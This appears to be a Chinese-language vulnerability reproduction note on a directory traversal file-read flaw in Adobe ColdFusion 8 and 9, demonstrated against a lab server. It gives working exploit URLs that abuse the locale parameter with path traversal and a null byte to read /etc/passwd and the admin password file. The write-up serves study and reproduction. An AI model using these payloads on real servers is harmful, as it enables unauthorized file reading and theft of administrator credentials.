




# Adobe ColdFusion 文件读取漏洞

> 漏洞说明

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

> 前提条件

版本：Adobe ColdFusion 8、9

> 利用工具

> 漏洞复现

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm，可以看到初始化页面

输入密码admin，开始初始化整个环境

访问http://192.168.40.77:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en读取/etc/passwd文件

访问http://192.168.40.77:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en 即可读取后台管理员密码

